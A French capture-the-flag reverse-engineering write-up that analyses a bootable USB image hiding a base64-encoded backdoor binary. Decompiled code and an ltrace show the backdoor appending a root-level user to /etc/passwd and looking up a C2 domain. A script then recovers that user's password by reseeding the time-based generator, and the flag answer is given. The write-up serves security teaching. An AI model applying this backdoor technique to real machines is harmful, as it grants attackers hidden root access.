

# Une clé USB qui ouvre des portes - Reverse

### Énoncé

L’individu retrouvé, vraisemblablement prénommé Thomas, avait en sa possession une clé USB.
Les équipes ont déjà commencé à visionner les enregistrements des caméras de vidéosurveillance.
Les enregistrements montrent une informations dans la salle serveur.
On y voit la victime interagir et introduire une clé USB sur un serveur du Ministère de l’Intérieur.
Nous avons découvert la présence de documents classifiés sur le serveur après son passage.
Nous devons récupérer le contenu de la clé USB.
Depuis cet accès non autorisé, un utilisateur suspect ayant des accès privilégiés a été ajouté dans le fichier "/etc/passwd".
Nous ne savons pas exactement ce qu’il a fait mais les administrateurs nous ont indiqué que la dernière modification
de ce fichier a été faite à 19:42:42 (UTC).
Malgré le fait que nous l’ayons supprimé, il semble être revenu et nous n’avons désormais plus accès à l’utilisateur root.
Nous avons quand même pu récupérer le hash de l’utilisateur suspect.
Vous le trouverez dans l’archive à votre disposition. Investiguez pour trouver un moyen de récupérer un accès à la machine !

user.hash: newsuperuserforwin:$6$NBYlg3a0nG8eykJg$KnzV/9n5DpRkeNHLcdXfviKsh0Z9NaPQdXg9Pd4nBOXuN6gr3dfAHxo71Y/dCGvG5kei3Y8ganUcz1RqrdTUt/:0:0::/root:/bin/sh

---

### Résolution

Un fichier `image.raw` nous est fourni ainsi que le hash utilisateur ci-dessus.

Ce fichier, contenu dans la clé USB, est une image bootable:

```bash
$ file image.raw 
image.raw: ISO 9660 CD-ROM filesystem data (DOS/MBR boot sector) 'ISOIMAGE' (bootable)
```

On peut tenter de [mount](https://wiki.debian.org/ManipulatingISOs#Mount_an_ISO_file) l’image pour inspecter ce qu’elle contient:

```bash
$ mount -o loop -t iso9660 image.raw mnt/
mount: mnt: ATTENTION: source protégée en écriture, montée en lecture seule.
 $ ls mnt/ 
boot  boot.catalog  efi.img  mach_kernel  ppc  System
```

L’image contient un grub qui permet de booter un OS. Si on inspecte `grub.cfg`, le fichier de configuration du menu grub, il ne contient qu’une seule entrée pour un OS `TKBos`:

```bash
$ cat boot/grub/grub.cfg
set default=0
set timeout=10

menuentry 'TKBos' --class os {
    insmod gzio
    insmod part_msdos
    linux /boot/vmlinuz
    initrd /boot/initrd
}
```

Si on continue d’explorer les dossiers et fichiers, [initrd](https://www.malekal.com/initrd-linux/) retient rapidement notre attention:

```
$ cp mnt/boot/initrd initrd.gz
$ gunzip initrd.gz
$ cat initrd | less

...
...
.d8888. db   db db    db d888888b db       .d88b.   .o88b. db   dD 
88'  YP 88   88 88    88 `~~88~~' 88      .8P  Y8. d8P  Y8 88 ,8P' 
`8bo.   88ooo88 88    88    88    88      88    88 8P      88,8P   
  `Y8b. 88~~~88 88    88    88    88      88    88 8b      88`8b   
db   8D 88   88 88b  d88    88    88booo. `8b  d8' Y8b  d8 88 `88. 
`8888Y' YP   YP ~Y8888P'    YP    Y88888P  `Y88P'   `Y88P' YP   YD
...
...
```

En y regardant de plus près, on constate qu’à un moment donné de son execution une grande chaîne de caractère base64 encodée est décodée, montée dans `/mnt/inlt` et le tout rendu executable.

Si on extrait cette chaîne de caractère, qu’on la base64decode et qu’on l’enregisre dans un fichier, on obtient un binaire !

```bash
$ file binary 
binary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=bf0f9735c1d872c94435fbb9af787b3672a4ebc9, for GNU/Linux 3.2.0, with debug_info, not stripped
```

### Analyse statique

Ouvrons le fichier à l’aide de Ghidra et voyons à quoi ressemble le code.

Tout d’abord la fonction main:

```C
undefined8 main(void)

{
  __pid_t _Var1;
  
  PwnNerD();
  IamPWNED();
  _Var1 = getpid();
  if (_Var1 == 1) {
    _Var1 = fork();
    if (_Var1 != 0) {
      execl("/usr/lib/systemd/systemd","/usr/lib/systemd/systemd",0);
    }
  }
  return 0;
}
```

Creusons un peu dans la première fonction appelée `PwnNerD`:

```C
void PwnNerD(void)

{
  char *salt;
  char *random_string;
  void *suffixe_password;
  undefined8 user_password;
  
  init_PRNG_it_is_pretty_safe_right();
  salt = (char *)calloc(0x10,1);
  random_string = (char *)generate_random_string(0x10);
  strcpy(salt,hash_type);
  strcat(salt,random_string);
  password_part = (void *)generate_random_string(8);
  user_password = compute_password(password_part, salt);
  free(salt);
  free(random_string);
  free(password_part);
  setup_some_magic_tricks_to_visit_you_later(user_password);
  return;
```
(Les variables ont été renommées pour plus de lisibilité)

La première chose qui est faite est un appel à la fonction `init_PRNG_it_is_pretty_safe_right`

```C
void init_PRNG_it_is_pretty_safe_right(void)

{
  time_t timestamp;
  time_t local_10;
  
  timestamp = time(&local_10);
  super_secure_seed = (uint)timestamp;
  srand(super_secure_seed);
  return;
}
```

Cette fonction récupère le timestamp au moment de l’exécution et utilise cette valeur en tant que [seed](https://en.wikipedia.org/wiki/Random_seed)

De retour dans `PwnNerD`, on génère une première chaîne de 16 caractères en appelant `generate_random_string` qui elle-même fait un appel à `rand()`, dont la valeur est déterministe puisque le PRNG a été seed!
Cette string est concaténée à `hash_type` qui vaut `$6$`, ça sera notre [salt](https://en.wikipedia.org/wiki/Salt_(cryptography)).
Une seconde string est génèrée, de 8 caractères cette fois, toujours en appelant `generate_random_string`.

Enfin, on rentre dans `compute_password` en passant en paramètre le salt et cette string de 8 caractères.

```C
char * compute_password(char *password_part,char *salt)


  char *__dest;
  char *true_random_password_part;
  
  __dest = (char *)calloc(0x20,1);
  true_random_password_part = (char *)choose_random_passwd_from_passwd_list_using_TRNG();
  strcpy(__dest,true_random_password_part);
  strcat(__dest,password_part);
  true_random_password_part = crypt(__dest,salt);
  free(__dest);
  return true_random_password_part;
}
```
(variables renommées)

Ici, on fait appel à `choose_random_passwd_from_passwd_list_using_TRNG` (True Random Number Generator en opposition au PRNG de `rand()`), qui fait appel à `getrandom` (donc `/dev/urandom`)
pour générer un nombre qui va servir à indexer une liste de strings.

Ensuite, on concatène la première partie du mot de passe avec celle ci-dessus, et un appel est fait à `crypt` pour hash le tout.

Extrayons la wordlist:



Search > For Strings > Sélectionnez > Export > Export Columns to CSV

On a tout ce qu’il faut pour scripter et retrouver le mot de passe :

```python
import datetime
import crypt
from wordslist import wordslist
from ctypes import CDLL

libc = CDLL("libc.so.6")

timestamp = datetime.datetime(2024, 6, 28, 21, 42, 42).timestamp() # 21:42:42 UTC+2
libc.srand(int(timestamp))

charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
salt_size = 16
token_size = 8
user_hash = "$6$NBYlg3a0nG8eykJg$KnzV/9n5DpRkeNHLcdXfviKsh0Z9NaPQdXg9Pd4nBOXuN6gr3dfAHxo71Y/dCGvG5kei3Y8ganUcz1RqrdTUt/"

salt = ""
token = ""

def generate_random_char_from_charset():
    index = libc.rand()
    return charset[index % 62]

for _ in range(16):
    salt += generate_random_char_from_charset()
salt = "$6$" + salt

for _ in range(8):
    token += generate_random_char_from_charset()

for word in wordslist:
    hash = crypt.crypt(word + token, salt)
    if hash == user_hash:
        print(f"SHLK{{{word + token}}}")
        break
```

```bash
$ python exploit.py
SHLK{backdoor8314x9mWPW7}
```

Flag !

### Analyse dynamique

On va éviter d’exécuter un binaire inconnu directement sur notre machine, pour ça on peut rapidement spawn un container dans lequel on pourra faire toutes nos manipulations:

```bash
$ docker run -it --name unsafe-binary ubuntu:latest
$ docker cp binary unsafe-binary:/home
```

Tentons d’exécuter le binaire une première fois en utilisant [ltrace](https://man7.org/linux/man-pages/man1/ltrace.1.html#description):

```bash
:/home# ltrace ./binary 
time(0x7ffe093d5308)                                                                                                                                                     = 1720535600
srand(0x668d4a30, 0x7ffe093d5478, 0x7ffe093e0080, 0x403df0)                                                                                                              = 1
calloc(16, 1)                                                                                                                                                            = 0x108a2a0
calloc(16, 1)                                                                                                                                                            = 0x108a2c0
rand(0x108a2c0, 0, 0x108a2c0, 32)                                                                                                                                        = 0x4faffcf
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x4faffba)                                                                                                               = 0xc54359a
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0xc543592)                                                                                                               = 0x28ffd40a
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x28ffd406)                                                                                                              = 0x147eeede
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x147eeebe)                                                                                                              = 0x4d7c5650
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x4d7c5640)                                                                                                              = 0x25c156ef
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x25c156c2)                                                                                                              = 0x24e9ea2b
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x24e9ea00)                                                                                                              = 0x9a5d17f
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x9a5d156)                                                                                                               = 0x4177acd8
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x4177acc6)                                                                                                              = 0x21ed309
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x21ed2d4)                                                                                                               = 0x551deb73
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x551deb70)                                                                                                              = 0x1137a63d
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x1137a61a)                                                                                                              = 0x4f8dafd9
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x4f8dafd8)                                                                                                              = 0x4a5ad960
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x4a5ad93e)                                                                                                              = 0x6dc82007
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2c0, 0x6dc81fd4)                                                                                                              = 0x30e7b4b6
strcpy(0x108a2a0, "$6$")                                                                                                                                                 = 0x108a2a0
strcat("$6$", "l84wgJHFiR3z1yP0")                                                                                                                                        = "$6$l84wgJHFiR3z1yP0"
calloc(8, 1)                                                                                                                                                             = 0x108a2e0
rand(0x108a2e0, 0, 0x108a2e0, 32)                                                                                                                                        = 0x32213d11
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x32213d0a)                                                                                                              = 0x35ba5ee4
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x35ba5ec6)                                                                                                              = 0x47a1b4a6
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x47a1b48c)                                                                                                              = 0x45126a83
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x45126a78)                                                                                                              = 0x1835c0d3
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x1835c0ce)                                                                                                              = 0x3d73eb82
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x3d73eb4c)                                                                                                              = 0x94091db
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x94091b4)                                                                                                               = 0x6c04a5d7
calloc(32, 1)                                                                                                                                                            = 0x108a300
getrandom(0x40443c, 1, 2, 48)                                                                                                                                            = 1
strcpy(0x108a300, "backdoorlover")                                                                                                                                       = 0x108a300
strcat("backdoorlover", "7uqb5SDL")                                                                                                                                      = "backdoorlover7uqb5SDL"
crypt("backdoorlover7uqb5SDL", "$6$l84wgJHFiR3z1yP0")                                                                                                                    = "$6$l84wgJHFiR3z1yP0$xDSF0NyzVxFk"...
free(0x108a300)                                                                                                                                                          = <void>
free(0x108a2a0)                                                                                                                                                          = <void>
free(0x108a2c0)                                                                                                                                                          = <void>
free(0x108a2e0)                                                                                                                                                          = <void>
memfrob(0x7ffe093d4240, 18, 0x544434805105e45, 3)                                                                                                                        = 0x7ffe093d4240
memfrob(0x7ffe093d4220, 18, 1, 16)                                                                                                                                       = 0x7ffe093d4220
sprintf("newsuperuserforwin:$6$l84wgJHFiR"..., "%s:%s:%s\n", "newsuperuserforwin", "$6$l84wgJHFiR3z1yP0$xDSF0NyzVxFk"..., "0:0::/root:/bin/sh")                          = 145
fopen("/etc/passwd", "a+")                                                                                                                                               = 0x108a330
fread(0x7ffe093d4300, 4096, 1, 0x108a330)                                                                                                                                = 0
strstr("root:x:0:0:root:/root:/bin/bash\n"..., "newsuperuserforwin")                                                                                                     = "newsuperuserforwin:$6$GzO393y8IX"...
fclose(0x108a330)                                                                                                                                                        = 0
gethostbyname("my-super-c2-for-l33t.fr")                                                                                                                                 = 0
getpid()                                                                                                                                                                 = 223
+++ exited (status 0) +++
```

`ltrace` intercepte et nous affiche tous les appels systèmes/libs. Que se passe-t-il quand on execute le binaire ?

`time` est appelé pour récupérer un timestamp puis `srand` pour seed le PRNG (en ouvrant le fichier avec Ghidra, on peut constater que la seed utilisée est le timestamp précédemment obtenu, voir la partie [analyse statique](#analyse-statique))
Ensuite, une première chaîne de caractère est générée `l84wgJHFiR3z1yP0`, à laquelle le programme concatène `$6$`, obtenant ainsi un `salt`.

Ensuite, une seconde chaîne de caractères est générée `7uqb5SDL` et concaténée avec une autre `backdoorlover`, choisie parmis une liste fixe de string ([analyse statique](#analyse-statique))
Enfin, un appel à `crypt` hash notre dernière string `backdoorlover7uqb5SDL` à l’aide du salt mentionné précédemment. Et le binaire termine par ouvrir `/etc/passwd` et par écrire dedans, comme l’énoncé nous l’apprenait.
Si on lance plusieurs fois successivement le binaire, les chaînes de caractères sont systématiquement différentes et le hash de sortie également.

L’énoncé mentionnait cependant un horaire de modification de `/etc/passwd` bien précis. On a donc un timestamp et potentiellement la seed utilisée au moment du lancement du binaire sur le serveur.
On peut utiliser `faketime` pour mocker l’appel à `time` et renvoyer une valeur arbitraire au binaire:

```bash
$ faketime '2024-06-28 19:42:42' ltrace ./binary
```

Ce qui nous donne la seed `1719603762` et on constate bien que si on execute le binaire plusieurs fois successivement le `salt` et la première partie du mot de passe sont toujours les mêmes !
Cependant, comme on l’a vu dans la partie statique, le choix de la deuxième partie du mot de passe est réellement random et n’est pas impactée.

On peut cependant executer le binaire autant de fois que nécessaire jusqu’à que la bonne string soit choisie et donc retrouver le bon `hash` dans la trace, c’est parti !

```bash
:/home# for i in {0..1000}; do faketime '2024-06-28 19:42:42' ltrace -o >(cat >> traces) ./binary; done
:/home# cat traces | grep "$6$NBYlg3a0nG8eykJg$KnzV/9n5DpRk"
crypt("backdoor8314x9mWPW7", "$6$NBYlg3a0nG8eykJg")                                                                                                                      = "$6$NBYlg3a0nG8eykJg$KnzV/9n5DpRk"...
sprintf("newsuperuserforwin:$6$NBYlg3a0nG"..., "%s:%s:%s\n", "newsuperuserforwin", "$6$NBYlg3a0nG8eykJg$KnzV/9n5DpRk"..., "0:0::/root:/bin/sh")                          = 145
```

Flag : `SHLK{backdoor8314x9mWPW7}` !


